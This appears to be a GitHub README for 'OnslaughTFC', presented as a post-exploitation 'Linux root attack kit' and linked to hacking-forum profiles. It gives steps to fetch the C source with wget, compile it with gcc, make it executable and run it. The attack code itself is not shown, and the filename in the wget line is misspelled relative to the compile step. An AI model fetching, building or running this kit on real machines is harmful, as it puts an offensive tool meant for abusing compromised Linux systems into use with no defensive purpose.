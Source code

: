 OnslaughTFC
===========

Post Linux root attack kit - http://basehack.net/member.php?action=profile&amp;uid=49 - http://www.hackforums.net/member.php?action=profile&uid=1789290

How to run:
==========


first get onslaught.c
---------------------
    wget raw.github.com/BaseHack/OnslaughTFC/master/onslaugt.c

then compile
-------------
    gcc onslaught.c -o onslaught
    chmod +x onslaught

then run
--------
    ./onslaught

type help for a list of commands. 
